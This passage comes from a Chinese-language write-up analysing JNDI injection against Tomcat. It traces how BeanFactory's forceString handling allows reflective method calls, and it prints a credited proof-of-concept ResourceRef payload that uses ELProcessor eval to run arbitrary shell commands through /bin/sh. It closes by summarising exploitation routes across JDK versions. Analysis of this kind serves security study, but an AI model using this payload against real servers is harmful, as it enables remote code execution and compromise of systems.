            setterName = param.substring(index + 1).trim();
            param = param.substring(0, index).trim();
        } else {
            setterName = "set" +
                         param.substring(0, 1).toUpperCase(Locale.ENGLISH) +
                         param.substring(1);
        }
        try {
            forced.put(param,
                       beanClass.getMethod(setterName, paramTypes));
        } // ...
    }
}
```

ReferenceRef存在着可控的键值对关系，通过`get`函数获得，如上述代码`ref.get("forceString")`将会获得forceString相对应的RefAddr，通过调用RefAddr的getContent函数就可以获得forceString键对应的值。

这里需要注意的是，当forceString对应的内容中存在`=`时，将截取`=`后面的字符串作为后续调用的函数名。这意味着我们可以任意指定当前对象的类函数了。force键值对中将包含`=`前面的内容和相应的Method对象。例如`test=eval`,最终我们将得到eval的Method对象

```java
Enumeration<RefAddr> e = ref.getAll();

while (e.hasMoreElements()) {

    ra = e.nextElement();
    String propName = ra.getType();

    if (propName.equals(Constants.FACTORY) ||
        propName.equals("scope") || propName.equals("auth") ||
        propName.equals("forceString") ||
        propName.equals("singleton")) {
        continue;
    }

    value = (String)ra.getContent();

    Object[] valueArray = new Object[1];

    /* Shortcut for properties with explicitly configured setter */
    Method method = forced.get(propName);
    if (method != null) {
        valueArray[0] = value;
        try {
            method.invoke(bean, valueArray);
        } catch (IllegalAccessException|
                 IllegalArgumentException|
                 InvocationTargetException ex) {
            throw new NamingException
                ("Forced String setter " + method.getName() +
                 " threw exception for property " + propName);
        }
        continue;
    }
```

`ref.getAll`获取了所有的RefAddr，对于非`Constants.FACTORY/scope/auth/forceString/singleton`且前文又获取相应的Method对象时，我们将调用该对象，其函数参数为此时RefAddr的内容。比如存在一个RefAddr的type为`test`，将调用前面的`eval`的Method对象。

到这里，我们就完成了一次反射调用，来看看poc

```java
// payload from kingx
ResourceRef ref = new ResourceRef(
    "javax.el.ELProcessor",// bean class
    null, "", "",
    true,"org.apache.naming.factory.BeanFactory",// factory class
    null);

ref.add(new StringRefAddr("forceString", "KINGX=eval"));// eval函数Method对象将会被调用
ref.add(new StringRefAddr("KINGX",
    "\"\".getClass().forName(\"javax.script.ScriptEngineManager\")" +
        ".newInstance().getEngineByName(\"JavaScript\")" +
        ".eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](" +
        "['/bin/sh','-c','"+ command +"'])" +
        ".start()\")"));// eval函数的参数为上述执行命令的el语句
```

## 0x05 总结

前面对JNDI with RMI做了一些简单的介绍，当遇到可控的JNDI lookup函数，我们可以发起JNDI链接到RMI服务上，利用JNDI Naming Manager的远程codebase加载机制载入任意的bytecodes。

当然，前面的利用方式仅在JDK8u113、JDK6u132,、JDK7u122版本之前，如果遇到了高版本的JDK，我们可以尝试利用本地CLASSPATH中可利用的反序列化利用链，或者是tomcat环境下的可利用的ObjectFactory。

在后续可利用的本地Factory这个思路上，原文作者kingx提出或许其他的中间件环境也可能存在这种可利用的ObjectFactory，这里立个flag，以后有空了一定要找找XD